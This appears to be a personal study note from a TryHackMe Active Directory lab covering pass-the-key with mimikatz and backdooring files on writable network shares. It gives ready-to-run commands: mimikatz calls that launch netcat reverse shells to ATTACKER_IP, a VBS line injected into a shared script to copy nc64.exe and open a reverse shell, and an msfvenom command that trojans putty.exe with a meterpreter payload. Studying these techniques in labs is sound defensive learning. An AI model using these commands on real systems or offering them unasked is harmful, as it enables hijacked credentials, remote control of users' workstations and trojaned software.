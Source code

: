 ### If we have the AES128 hash
```mimikatz
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1337"
```

### If we have the AES256 hash
```mimikatz
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1337"
```


# Abusing User Behavior
Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network. While there are a fuck ton of ways this can happen, we will list some of the most common ones

## Abusing Writable Shares
When checking corporate environments it is quite common to find network shares that legitimate users use to perform day-to-day tasks. If those shares are writable for some reason, we can plant specific files to force users into executing any arbitrary payload and gain access to their machines.
A common scenario consists of finding a shortcut to a script or executable file hosted on a network share.
![[Pasted image 20241102133835.png]]
The reason behind this, is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we have permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.
Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged account)

### Backdooring .vbs Scripts
For example if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:
```cmd
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1337", 0, True
```
This will copy nc64.exe form the share to the user's workstation `%temp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

### Backdooring .exe Files
If the shared file is a Windows binary, ex putty.exe, we can download it from the share and use msfvenom to [[Injection types|Inject]] a [[Persistence#Backdooring Files|backdoor]] into it. The binary will still work as usual but execute an additional payload silently.
```sh
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=tun0 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
The resulting puttyX.exe create a reverse shell connection, without any indication of something happening. Once the file is generated, we can replace the executable on the windows share and wait for any connections.

